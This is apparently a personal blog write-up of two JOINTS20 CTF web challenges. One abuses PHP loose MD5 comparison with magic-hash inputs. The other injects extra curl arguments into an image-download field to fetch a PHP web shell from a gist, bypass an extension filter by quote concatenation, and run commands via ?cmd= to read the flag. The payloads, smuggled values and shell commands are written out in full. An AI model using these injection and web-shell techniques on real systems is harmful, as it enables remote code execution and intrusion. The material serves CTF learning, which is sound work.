 ```yaml
---
layout: blog
title: "JOINTS20 Web Writeups"
date: 2020-05-08T18:31:53.905Z
tags:
  - ctf_writeup
---
```


JOINTS20 Writeup (WEB)

<!--more-->

This is my writeup on JOINTS20, I could not play it on time so I play the game after it's over

## `ezStringMatching`

from the start, there is nothing suspicious in the web, so I tried to check the network tab on my browser and see this in the header or you can just simply use curl --head CTF.joints.id:40002 to see the header of the request:

```text
HTTP/1.1 200 OK
Host: ctf.joints.id:40002
Date: Mon, 04 May 2020 05:25:04 GMT
Connection: close
X-Powered-By: PHP/7.2.30
Debug: ?debug=v
Content-type: text/html; charset=UTF-8
```

there is debug option on the request, so let's try to identify ctf.joints.id:40002/?debug

```php
<?
if (!empty($_POST["string1"]) || !empty($_POST["string2"])) {
  $xxx = $_POST["string1"];
  $yyy = $_POST["string2"];
  if ($xxx === $yyy) {
    echo "<center> <p>Match bosqquee!!</p> </center>";
  } else {
    if (md5($xxx) == md5($yyy)) {
      echo "<center> $flag </center>";
    } else {
      echo "<center> <p>Not Match bosqquee!!</p> </center>";
    }
  }
}
```

We can see on the source code, we have to match `md5($xxx) == md5($yyy)` how we can do that?

Remember that PHP has type juggling because of the loose comparison (using `==` instead of `===`), you can see here for the cheat sheet.

When using `==` or loosely comparison, the comparison between the operand just see if the value has the same value on the other hand if we use the strict comparison (using `===`) it not only compares the value but also the type.

TL;DR: we can abuse the == operation, how?

The md5() operation calculates the hash of the value, if the hash computed starts with "0e" (or "0..0e") only followed by numbers, PHP will treat the hash as a float. \
\
The hash value of 240610708 is 0e462097431906509019562988736854 and the hash value of QNKCDZO is 0e830400451993494058024219903391 AND THE PHP WILL TREAT THE COMPUTED HASH THAT STARTS WITH 0e AS A FLOAT, DAMN.

![](/images/uploads/fdbc4aec-6cba-4c5d-9701-f39d8caf5fa5.png)

> JOINTS20{b4bytyp3ju99lin9*md5*}

## `Twitter Collection`

this page provides a URL box that we can feel with a link and scrap the image if it succeeds it will send alert:

![](/images/uploads/21083120-c5f2-4a18-a926-91f239a95acc.png)

and it pops up at the bottom of the page, and it stored on the cookie I think? when I flush the cookie, the image disappears, poor waifu.

and the important thing that is the image is downloaded locally to the server, mine is here `http://ctf.joints.id:10001/downloads/9eed2d697fb5a3fa35e8d1832471a6a8464d49fe/099a95c45237eaa2243500bf145da79534ec8460.jpg` so can we just upload any file?

I try to use some kind of special character in the URL i tried there is two response one is and one is (using `"` and `-`) and bingo, there is 500 internal error:

![](/images/uploads/6b17cc87-f0cb-44e6-be17-ddcd2b5fc77f.png)

and the preview of the error said that

`curl:(22)TherequestedURLreturnederror:404`

we can assume the download process is using curl for you who don't know that is curl you can always check it with man curl or curl --help. The command will be something like this curl <link>.

this is what I'm trying:

- normal query: `https://pbs.twimg.com/media/EV2FFNpUYAAFSxk?format=jpg` → success uploaded
- using another link (contains my RCE script) `https://gist.githubusercontent.com/natkingchloe/be32d35e3e28bae77660267fb43de5bb/raw/f28431b71f501a9c75a529a3ff7c09964ca1b95e/rce.php` → error, PHP file detected
- using another link (contains my RCE script, but change the extension) `https://gist.githubusercontent.com/natkingchloe/be32d35e3e28bae77660267fb43de5bb/raw/f28431b71f501a9c75a529a3ff7c09964ca1b95e/rce` → error, the URL must be from pixiv?

when I'm trying curl, we can use curl to download multiple files, for example:

```
curl "https://pbs.twimg.com/media/EV2FFNpUYAAFSxk?format=jpg" -o name_of_file_a.jpg "https://pbs.twimg.com/media/EV2FFNpUYAAFSxk?format=jpg" -o name_of_file_b.jpg
```

- trying to upload multiple files the one being from pixiv `https://pbs.twimg.com/media/EV2FFNpUYAAFSxk?format=jpg -o a https://gist.githubusercontent.com/natkingchloe/be32d35e3e28bae77660267fb43de5bb/raw/f28431b71f501a9c75a529a3ff7c09964ca1b95e/rce -o b` → error, https error?
- until this time I'm trying with different payload and I unexpectedly found the correct payload, this is the payload I used: `https://pbs.twimg.com/media/EV2FFNpUYAAFSxk?format=jpg" "https://gist.githubusercontent.com/natkingchloe/be32d35e3e28bae77660267fb43de5bb/raw/f28431b71f501a9c75a529a3ff7c09964ca1b95e/rce" -o "rce.ph""p` → success, uploaded RCE

Note:

- Bypassing the PHP filter using concatenate feature in bash

```shell
~
❯ echo "rce.php"
rce.php

~
❯ echo "rce.ph""p"
rce.php
```

- `-o` means output to a file and the argument after that is the file name with the extension

and viola:

![](/images/uploads/9ed0f832-c9b0-4206-84fd-b5b2e436415a.png)

```shell
❯ curl "http://ctf.joints.id:10001/downloads/3e0766a83b992daee763e4c629190a1a434de474/rce.php"
<br />
<b>Warning</b>:  system(): Cannot execute a blank command in <b>/var/www/downloads/3e0766a83b992daee763e4c629190a1a434de474/rce.php</b> on line <b>2</b><br />


❯ curl "http://ctf.joints.id:10001/downloads/3e0766a83b992daee763e4c629190a1a434de474/rce.php?cmd=ls"
cfe8e2872fe2d82029e367879c9f782bee55da0d.jpg
d0b581aff1128cbcb5fb53a9025c7d3f09315abf.jpg
d9d65b15c6f896fb5211124cea5e923f06bd1caa.jpg
dfc6c84d54c615dc3a547503e3fd616c82c2adb8.jpg
ec.xx
rce.php


❯ curl "http://ctf.joints.id:10001/downloads/3e0766a83b992daee763e4c629190a1a434de474/rce.php?cmd=ls ../.."
apakah_ini_benderanya
collect.php
downloads
favicon.ico
get.php
index.php
license-free.txt
scripts
session.php
styles
styles


❯ curl "http://ctf.joints.id:10001/downloads/3e0766a83b992daee763e4c629190a1a434de474/rce.php?cmd=cat ../../apakah_ini_benderanya"

JOINTS20{ya_benar_ini_benderanya_uwu}JOINTS20{ya_benar_ini_benderanya_uwu}
```

![](/images/uploads/14903bb1-cbee-426f-a8d5-74d76db0ca0f.png)
